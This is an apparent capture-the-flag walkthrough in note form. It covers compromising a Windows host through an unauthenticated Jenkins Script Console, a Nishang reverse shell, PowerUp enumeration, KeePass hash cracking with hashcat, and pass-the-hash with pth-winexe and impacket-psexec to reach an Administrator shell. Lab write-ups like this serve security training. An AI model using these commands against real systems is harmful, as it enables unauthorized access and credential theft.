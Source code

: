 Jenkins Webapp

Login without creds
Cmd execution via "Script Console"
Execute Nishang "Invoke-PowershellTCP.ps1" to get a reverse shell

# PrivEsc

Upload PowerUp: Invoke-AllChecks
=> SeImpersonagePrivileges

Also: KeePass DB in users Documents directory

```bash
# Convert keepass db to crackable hash
keepass2john db.kdbx > db.hash

# Crack
hashcat -m 13400 db.hash <wordlist>
```

Open DB in KeePass2 app
=> found NTLM hash

```bash
# old
pth-winexe -U DOMAIN/user%HASH //target-ip "cmd.exe"

# new
impacket-psexec -hashes :<NTLM_HASH> domain/username@target-ip
```

=> Administrator shell

## Alternative Privesc

SeImpersonagePrivileges => Rotten Potato exploit